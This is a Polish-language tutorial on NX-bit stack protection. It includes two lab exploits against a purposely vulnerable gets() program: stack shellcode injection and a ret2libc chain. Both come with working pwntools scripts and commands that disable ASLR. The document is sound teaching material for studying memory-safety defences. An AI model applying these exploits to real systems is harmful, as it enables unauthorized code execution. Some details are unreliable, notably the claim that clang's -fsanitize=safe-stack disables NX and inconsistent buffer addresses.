

# Executable space protection

## 1. Opis 

`Executable space protection`, w bezpieczeństwie systemów i oprogramowania, odnosi się do oznaczania regionów pamięci jako `niewykonywalen` - `non-executable`. W wyniku takiego oznaczenia wykonywanie kodu maszynowego z regionu tak oznaczonego zakończy się wzniesieniem wyjątku. Technologia, która najczęściej odpowiada za zabezpieczenie stacka to `NX bit`, która jest funkcją `Memory Managment Unit`. MMU jest kontrolowane przez kernel - to on decyduje jakie elementy kodu dostają uprawnienia `execution`.

Technologia `NX bit` została zaimplementowana w hardware-owo. W proceorach AMD technologia nazwana jest jako "Enhanced Virus Protection", u Intela natomiast jako "XD (eXecute Disabled) bit". 

W systemach linux loader na podstawie nagłówków w ELF decyduje, które sekcje otrzymują uprawnienia `execution`, a są to:
*   sekcja `.init` oraz `.fini` - sekcje odpowiedzialne za inizjalizację programu oraz dekompozycje programu
* sekcja `.plt` oraz `.got` - sekcje odpowiedzialene za dostęp do dunkcji bibliotecznych
* sekcja `.text` - kod programu

## 2. Wady i zalety

Jako że jes to metoda wspierana sprzętowo, używanie jej nie zmienia wydajności aplikacji. Występują jednak również implementacje systemowe, które to mogą spowalniać aplikację.

Kolejną zaletą używania `NX` jest to, że w przypadku ataków BOF, podczas których wstrzykujemy kod na stos, który następnie chcemy wykonać jest niemożliwe. Przykład takiego exploitu zadenmonstruję w punkcie `5.1`.

Należy jednak pamiętać, że wykorzystywanie samej metody NX w zabezpieczeniu aplikacji nie zapewnia pełnego bezpieczeństwa. NX zapobiega przed wykonaniem kodu maszynowego ze stosu, jednakże dalej jesteśmy w stanie modyfikować stos za pomocą niebezpiecznych funkcji typu `gets()` lub `strcpy()`. Przykładem ataku, który pomimo niewykonywalnego stosu jest w stanie exploitować program  jest `ret2libc`. Celem takiego ataku nie jest wstrzyknięcie i wykonanie złośliwego kodu, a wywołanie funkcji bibliotecznych z odpowiednimi argumentami - więcej o tym ataku w punkcie `5.2`.

## 3. GCC i Clang

W przypadku użycia najnowszego `gcc` metoda NX jest defaultowo włączona. Istnieje jednak możliwość wyłączenia tej metody poprzez dodanie odpowiedniej flagi podczas kompilacji, a mianowicie `-z execstack`.
W przypadku użycia kompilatora `clang` metoda NX jest również defaultowo włączona, a wyłączyć ją można poprzez flagę `-fsanitize=safe-stack`.

## 4. Różnice w Windows i Linux

Różnice działania mechanizmu ochrony stosu w tych dwóch systemach jest marginalna. Linux wspiera natomiast dodatkowo software'ową emulację tej metody zabezpieczenia. Wiąże się to jednak ze spadkiem wydajnośći. Niektóre dystrybucje liuxa dla architektrury 32bit mają domyślnie *wyłączone* zabezpieczenie Nx bit (ubuntu, fedora).
## 5.1 Przykładowa aplikacji - `shellcode injection`

-------------
PLIKI:
1. `vuln.c`
2. `vuln-1.o`
3. `exploit-1.py`
----------------

Celem poniższego ataku jest uzyskanie shella poprzez umiejscowienie na stosie shellcode.

Przyjęte założenia podczas kompilacji:

* Kompilacja na 32-bit = `-m32`  
* Wyłączone ASLR = `echo 0 | sudo tee /proc/sys/kernel/randomize_va_space` - wyłączona radomizacja adresów, aby nie liczyć offsetów
* Wyłączone NX = `-z execstack` - możliwość wykonania kodu maszynowego ze stosu
* Wyłączone Stack Cannary = `-fno-stack-protector` -  przepełnienie bufora bez potrzeby leakowania kanarka
* Wyłączone PIE = `-no-pie` - w celu bezpośredniego pobrania adresu buffora z asm skompilowanej aplikacji


Poniżej znajduje się kod podatnej aplikacji. Podatność znajduje się w funkcji `vuln`, w której wywołujemy funkcję `gets()` - nie sprawdza ile bitów podajemy do zapisania i potrafi zapisać bity nawet poza długością przeznaczonego do tego buffora. 

```c
#include <stdio.h>
#include <string.h>

void vuln()
{
    char buffer[16];
    gets(buffer);
    printf("Buffer = %p", buffer);
}

int main(int argc, char *argv[])
{
    vuln();
    return 0;
}
```


Aby dokonać exploitacji takiego programu należy wstrzyknąć kod maszynowy na stos, a następnie nadpisać adres powrotu w funkcji `vuln()` na adres naszego w którym znajduje się nasz kod. Zatem eksploitację można podzielić na następujące punkty:

* znaleźć padding, który należy zastosować aby nadpisać adres powrotu
* wyliczyć odpowiedni adres na który mamy skoczyć po wyjściu z funkcji
* opracować shellcode

Aby odnaleźć odpowiedni padding, można posłużyć się patternem `AAAABBBBCCCCDDDDEEEE...`. Dzięki takiemu inputowi w łatwy sposób w `gdb` można sprawdzić jaki adres został nadpisany na rejestr 	`eip`. W przypadku tej aplikacji jest to `HHHH`, zatem padding to `AAAABBBBCCCCDDDDEEEEFFFFGGGG` - 28 znaków. 


Następnym krokiem jest odnalezienie adresu `buffer`. Adres jest stały, ponieważ ASLR został wyłączony. Adres uzyskuję przez `printf()`. Alternatywnie można to zrobić, poprzez użycie `gdb` i sprawdzenie adresu na stosie. Poniżej widać, że w przypadku tej kompilacji adres buffora to `0xffffd180`.


Shellcode można pobrać ze strony [shell-storm.org](http://shell-storm.org/shellcode/files/shellcode-752.php). W przypadku tego exploita używam shellcodu w postaci ASM, napisany dla architektury x86. Shellcode używa syscalla o numerze 11, czyli `execve`. Na stos wzurzamy również `/bin//sh` z podwójną `//` - aby stos był wyrównany.

```python
xor ecx, ecx
mul ecx
push ecx
push 0x68732f2f
push 0x6e69622f
mov ebx, esp
mov al, 11
int 0x80
```


Ostatnim elementem potrzebnym do udanej eksploitacji to policzenie odpowiedniego adresu, na który należy wskazać, aby shellcode wykonał się. Do adresu buffora należy dodać długośc paddingu oraz długość adresu powrotu.

```python
padding = b"AAAABBBBCCCCDDDDEEEEFFFFGGGG"

buf_ptr = 0xffffd1d0

eip = buf_ptr + len(padding) + 4
```

Finalny exploit wygląda następująco:


```python
#!/usr/bin/env python3

from pwn import *

p = process('./vuln-1.o')

padding = b"AAAABBBBCCCCDDDDEEEEFFFFGGGG"

buf_ptr = 0xffffd1d0

eip = buf_ptr + len(padding) + 4

shellcode = """
    xor ecx, ecx
    mul ecx
    push ecx
    push 0x68732f2f
    push 0x6e69622f
    mov ebx, esp
    mov al, 11
    int 0x80
 """

send = padding + p32(eip) + asm(shellcode)

p.sendline(send)

p.interactive()
```


W wyniku działania exploitu otrzymujemy shella. 




Dla aplikacji z włączonym zabezpieczeniem exploit nie działa. Dostajemy sygnał `SIGSEGV` - próba dostępu do zabronionej pamieci.


## 5.2 Przykładowa aplikacji - `ret2libc`

-----------------
PLIKI:
1. `vuln.c`
2. `vuln-2.o`
3. `exploit-2.py`
-----------------------

Tak jak wspomniałem w `wady i zalety`, pomimo właczonej ochorny `NX`, dalej istnieje moźliwość exploitacji aplikacji - poprzez atak `ret2libc`. W tym ataku, zamiast wykonywać shellcode ze stosu, wykorzystamy funkcję oraz wartości zawarte w `libc`.

Przyjęte założenia podczas kompilacji:

* Kompilacja na 32-bit = `-m32`
* Wyłączone ASLR = `echo 0 | sudo tee /proc/sys/kernel/randomize_va_space` - wyłączona radomizacja adresów, aby nie liczyć offsetów
* Włączone NX - brak możliwości wykonania kodu umaszynowego ze stosu
* Wyłączone Stack Cannary = `-fno-stack-protector`-  przepełnienie bufora bez potrzeby leakowania kanarka
* Wyłączone PIE = `-no-pie` - w celu bezpośredniego pobrania adresu buffora z asm skompilowanej aplikacji

Kod podatnej aplikacji znajduje się poniżej. Tak jak w poprzedniej wersji, podatnością jest `gets()`. Zmienione zostały jedynie flagi kompilacji.

```c
#include <stdio.h>
#include <string.h>

void vuln()
{
    char buffer[16];
    gets(buffer);
    printf("Buffer = %p", buffer);
}

int main(int argc, char *argv[])
{
    vuln();
    return 0;
}
```


Aby dokonać exploitacji takiego programu należy:
* wyliczyć padding
* odnaleźć w adres `system()`
* (opcjonalnie) odnaleźć adres `exit()`
* odnaleźć adres `/bin/sh`

Padding został odnaleziony w taki sam sposób, jak w poprzednim ataku.

Do odnalezienia adresu `system()` posłużyłem się `gdb`. Po zbreakowaniu się na funkcji `vuln()` i rozpoczęciu programu mogłem sprawdzić adres `system()` w aplikacji używając do tego `print system` - symbole są ładowane dopiero po uruchomieniu aplikacji, ponieważ aplikacja bliblioteka jest ładowana dynamicznie.


Aby odnaleść adres `/bin/sh` posłużyłem się komendą `ldd vuln-protected`, która zwraca jaki linker używa aplikacja wraz z adresem pod który załadowana zostanie biblioteka. Użyłem równiez koemndy `strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep '/bin/sh'` aby odnależć adres `/bin/sh` w libc. 


Następnie aby obliczyć adres `/bin/sh` w aplikacji należy dodać do adresu `libc.so.6` offset `/bin/sh`.


Aby sprawdzić, czy odpowiednio wyliczyłem adres w `gdb` sprawdziłem co znajduje się pod tym adresem. Jak widać poniżej, poprawnie udało się obliczyć adres.


Syscall `exit()` nie jest obowiązkowy. Bez tego dalej uda się nam uzyskać shella. Jednakże wychodząc z shella otrzymamy `SIGSEGV`. Aby wyjśc z powłoki bez tego sygnału, należy umieścić na stacku równiez adres `exit()` - dzięki temu shell wie co zrobić po wyjściu z niego. Adres ten odnalazłem w identyczny sposób, jak adres `system()`. 

Zatem finalny wysyłany payload jest postaci:

```padding + system_addres + exit_addres + bin_sh_addres```

Kod exploita:

```python
#!/usr/bin/env python3

from pwn import *

p = process('./vuln-2.o')

padding = b"AAAABBBBCCCCDDDDEEEEFFFFGGGG"

system_addres = 0xf7e10040 

exit_addres = 0xf7dcb000- 0x18c33c

bin_sh_addres = 0xf7f5733c

send = padding + p32(system_addres) + p32(exit_addres) + p32(bin_sh_addres) 

p.sendline(send)

p.interactive()
```


Jak widać na poniższym screenshot-cie, udało się dostać shella, pomimo włączonego zabezpieczenia NX. Udowadnia to, że zabezpieczanie aplikacji tylko poprzez `NX` nie jest dobrą techniką.


## 6. Podsumowanie

Metoda zabezpieczania stosu przed jego wykonaniem jest dobrą metodą. Utrudna ona exploitacje, gdyż niemożliwe jest wykonanie kodu maszynowego bezpośrednio ze stosu. Niestety jednak nie zapewnia ona 100% bezpieczeństwa. Dalej jesteśmy w stanie modyfikować stos, przez co możemy użyć innych metod exploitacji aplikacji, takich jak `ROP` lub `ret2libc`. Metoda ta powinna być jedną z wielu sposobów na chronienie aplikacji, a nie stosowana jako jedyna.
